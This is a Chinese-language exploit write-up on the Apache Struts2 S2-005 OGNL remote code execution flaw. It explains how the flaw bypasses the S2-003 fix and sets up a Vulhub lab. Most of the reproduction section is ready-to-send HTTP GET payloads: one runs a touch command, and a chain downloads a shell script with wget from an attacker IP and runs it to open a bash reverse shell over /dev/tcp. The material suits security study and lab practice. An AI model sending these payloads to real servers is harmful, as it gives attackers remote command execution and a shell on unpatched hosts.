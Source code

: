 # Struts2 S2-005 远程代码执行漏洞

## 漏洞描述

参考吴翰清的《白帽子讲Web安全》一书。

> s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：

- S2-003 使用`\u0023`绕过s2对`#`的防御
- S2-003 后官方增加了安全模式（沙盒）
- S2-005 使用OGNL表达式将沙盒关闭，继续执行代码

漏洞详情: 

- http://struts.apache.org/docs/s2-005.html

## 漏洞影响

影响版本: 2.0.0 - 2.1.8.1 

## 环境搭建

Vulhub执行以下命令启动s2-005测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

执行任意命令POC（无回显，空格用`@`代替）：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/awesome_poc%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
Host: target:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.98 Safari/537.36
```

![image-20220301161455042](images/202203011614123.png)

命令`touch /tmp/awesome_poc`成功执行：

![image-20220301161548594](images/202203011615639.png)

网上一些POC放到tomcat8下会返回400，研究了一下发现字符`\`、`"`不能直接放path里，需要urlencode，编码以后再发送就好了。这个POC没回显。

POC用到了OGNL的Expression Evaluation：

![](images/202203011611125.jpeg)

大概可以理解为，`(aaa)(bbb)`中aaa作为OGNL表达式字符串，bbb作为该表达式的root对象，所以一般aaa位置如果需要执行代码，需要用引号包裹起来，而bbb位置可以直接放置Java语句。`(aaa)(bbb)=true`实际上就是`aaa=true`。不过确切怎么理解，还需要深入研究，有待优化。

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22wget@192.168.174.128/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
GET /example/HelloWorld.action?(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22bash@/usr/local/tomcat/shell.sh%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1 HTTP/1.1
```

成功接收反弹shell：

![image-20220301162511817](images/202203011625901.png)